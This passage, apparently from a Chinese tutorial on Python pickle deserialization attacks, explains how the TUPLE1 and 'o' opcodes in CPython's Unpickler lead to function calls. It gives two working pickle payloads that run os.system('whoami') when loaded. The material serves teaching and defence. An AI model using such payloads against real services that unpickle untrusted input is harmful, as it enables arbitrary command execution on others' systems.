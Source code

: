 ```python
self=&gt; stack:[,(whoami)]
```

成功执行`os.system('whoami')`

由于弹栈作为一个参数，参数必须是元组，所以使用操作码`\x85`,将栈顶的一个元素转化为tuple类型的数据

```python
    def load_tuple1(self):
        self.stack[-1] = (self.stack[-1],)
    dispatch[TUPLE1[0]] = load_tuple1
```

payload

```python
import pickle
a=b'\x80\x03cos\nsystem\nX\x06\x00\x00\x00whoami\x85R.'
b=pickle.loads(a)
```

**`o`操作码**

```python
    def load_obj(self):
        # Stack is ... markobject classobject arg1 arg2 ...
        args = self.pop_mark() #当前栈中所有的数据赋值给args
        cls = args.pop(0) #弹出第一个，作为类名 利用是为函数名
        self._instantiate(cls, args)
    dispatch[OBJ[0]] = load_obj
```

函数执行在value = klass(\*args)

```python
    def _instantiate(self, klass, args):
        if (args or not isinstance(klass, type) or
            hasattr(klass, "__getinitargs__")):
            try:
                value = klass(*args)
            except TypeError as err:
                raise TypeError("in constructor for %s: %s" %
                                (klass.__name__, str(err)), sys.exc_info()[2])
        else:
            value = klass.__new__(klass)
        self.append(value)
```

payload

```python
import pickle
import sys
a=b'\x80\x03(cos\nsystem\nX\x06\x00\x00\x00whoamio.'
#a=b'(cos\nsystem\nX\x06\x00\x00\x00whoamio.'
b=pickle.loads(a)
```
